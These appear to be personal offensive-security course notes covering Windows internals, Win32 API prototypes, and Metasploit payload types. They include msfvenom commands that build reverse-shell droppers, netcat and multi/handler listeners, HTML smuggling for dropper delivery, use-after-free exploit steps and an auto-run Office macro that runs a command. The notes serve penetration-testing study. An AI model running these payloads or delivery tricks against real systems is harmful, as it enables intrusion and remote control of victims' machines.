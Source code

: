 password: @Hide01

# chapter 3 Windows concepts

1. WOW  - Windows on windows. Most windows mahine sise the 64 bit version of the Windows Operating system. However many applications are still 32 bit.

Ntdll.dll, Wow64.dll, Wow64Win.dll and Wow64Cpu.dll - used for this emuation.

2. WIn32 API -  various applications in a variety of programming languages ranging from assembly to C# but many of those make use of the windows provided built in programming interfaces.

Many  of  the  Win32  APIs  are  documented  by  Microsoft.  One  simple  example  is  the 
GetUserNameA33 API exported by Advapi32.dll which retrieves the name of the user executing the 
function. 

```
BOOL GetUserNameA( 
  LPSTR   lpBuffer, 
  LPDWORD pcbBuffer 
);
```

In this example, the API requires two arguments. The first is an output buffer of type LPSTR which 
is the Microsoft term for a character array. The second argument is a pointer to a DWORD which 
is a 32-bit unsigned integer. The return value from the API is a boolean.

Listing 2 above shows the prototype for GetUserNameA, where the suffix “A” indicates the ASCII 
version of the API. Listing 3 below shows the prototype for GetUserNameW, in which the “W” 
suffix (for “wide char”) indicates Unicode: 

```
BOOL GetUserNameW( 
  LPWSTR  lpBuffer, 
  LPDWORD pcbBuffer 
); 
```
3.  Windows Registry : Windows Registry to support local and global variables. 

4. page 31/704

Staged vs Non staged payloads

windows/shell/reverse_tcp is a simple non staged reverse TCP shell payload
Staged payloads contain a minimal amoutn of code thta tperforms a callback then retrieves any remaining acode and executes it in th etargets memory.

the differenece in the delimiters
s
windows/x64/meterpreter_reverse_https - meterpreter shell - full payload
windows/x64/meterpreter/reverse_https - Reflective dll staged - staged payload

5. Building a dropper

sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=4444 -f ee -o /var/ww/html/shell.exe

sudo service apache2 start

sudo nc -lnvp 4444 to start a reverse shell

6. Creating a staged dropper

So that the size is less.

sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=10.10.6.10 LPORT=4444 -f exe -o /var/www/html/msfnonstaged.exe

```
kali@kali:~/cyber/pen300$ sudo nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.6.10] from (UNKNOWN) [10.10.136.133] 53944
��ao��H▒[�5x���h�5��H�����h�*Q&�,�+�0�/�$�#�(�'�
�       ����=<5/
F
▒
#�whoami
```

- creating a listener
```
sudo msfconsole -q

msf5 > use multi/handler

set payload windows/x64/meterpreter/reverse_https

set lhost 10.10.6.10

set lport 4444

exploit
```

for nonstaged payload you can get reverse connect on nc -lnvp 4444
for staged payloads we can get reverse shell on msfconsole

### Important commands for DIDR

listing processes
>tasklist | findstr pid
>taskkill /f /pid 123

netstat 
>netstat -aon | findstr "4444"
  -TCP    10.10.136.133:59795    10.10.6.10:4444        SYN_SENT        9972

Removing the entire directory
>RMDIR /s twint 

### HTML Smuggling

- attackers may use discreet delivery methods, embedding a link in an emal. using a javascript dropper code in the HTML itseld. we can create a simple hyperlink and set th edownload attribute anchor tag
```html
<html>
  <body>
    <a href="/msfstaged.exe" download="msfstaged.exe> DownloadME </a>
  </body>
</html>
```
However this makes the user manually click on the link. Instead we can make the lnk embedded javascript file.

we will create a Base64 meterpreter.


### HTML smuggling directly

Although this works well, it exposes the filename and extension of the dropper and requires the 
user to manually click on the link. To avoid this we can trigger the download from an embedded 
JavaScript file. This method feeds the file as an octet stream and will download the assembled 
file without user interaction.

# Day 5 cdac training

## use and free exploit

Patch diffing - Instruction to call the newly created object with `ScavVarList:Init`
VAR structure -  gv block has 100 VAR structure, each var will have its 24 byte structure, type of variable, obj ptr and next var ptr
VVAL structure - consist of structured va

Can I do the stuff that I needed to do in due time, 

Heap spray of fake vars
leak vftable address of an object poinin to jscript.dll
arbitary read primitive - kernel32.dll, ntfll.fll
function names - winexec, ntcontinue
Handling ASLR
Trigger - Trigger using typeof operator
create a fake object

Converting use after free to a type confusion bug
obj_ptr behaviour changes based on functionality

find out ho ot run iexplore and windbg


## Phishing in MS Office page 39

creating macros is defined here

```vb
Sub Document_Open()
    MyMacro

End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
'
' mymacro Macro
'
'
'    Dim myString As String
'    Dim myLong As Long
'    Dim myPointer As LongPtr

'    myLong = 1

'    If myLong < 5 Then
'        MsgBox ("Hi")
'    Else
'        MsgBox ("False")
    
'    End If

'    For counter = 1 To 3
'        MsgBox ("Hoo")
'    Next counter

    Dim str As String
    str = "Hi " + Environ$("computername") + "!"
    
    MsgBox (str)
    
    MsgBox ("You are " + CreateObject("WScript.Network").ComputerName + ", right?")
    'CreateObject("Wscript.Shell").Run str, 0
    
    MsgBox ("Lemme open a calculator for you!")
    str = "calc.exe"
    CreateObject("Wscript.Shell").Run str, 0
    
    'Shell str, vbHide
    
    MsgBox ("Bye")
End Sub
```


